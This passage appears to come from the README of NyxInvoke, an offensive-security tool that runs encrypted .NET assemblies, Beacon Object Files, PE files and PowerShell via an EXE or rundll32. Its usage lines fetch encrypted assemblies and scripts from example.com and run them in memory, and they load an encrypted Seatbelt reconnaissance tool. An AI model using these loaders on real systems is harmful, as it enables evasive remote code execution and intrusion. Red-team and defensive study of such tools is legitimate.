 3. PE Mode (Compiled Execution):
   ```
   NyxInvoke.exe pe --args arg1
   ```
### DLL Mode

1. CLR Mode (Remote Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Direct Command Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke ps --command "Get-Process | Select-Object Name, ID"
   ```

3. BOF Mode (Compiled Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke bof --args "str=argument1" "int=42"
   ```

4. PE Mode (Local Execution Unencrypted):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke pe -u --pe C:\path\to\pe.exe --args arg1 arg2
   ```

## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that List user permissions for the specified file, wildcards supported.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\Windows\system32\cmd.exe"
     ```

3. Encrypted PE (Message Box):
   - File: `pe_data.enc`
   - Description: An encrypted PE File that pop up message box.
   - Usage example:
     ```
     NyxInvoke.exe pe
     ```
4. Powershell (Message Box):
   - File: `ps.ps1`
   - Description: An Powershell script that pop up message box.
   - Usage example:
     ```
     NyxInvoke.exe ps -s http://example.com/ps.ps1
     ```
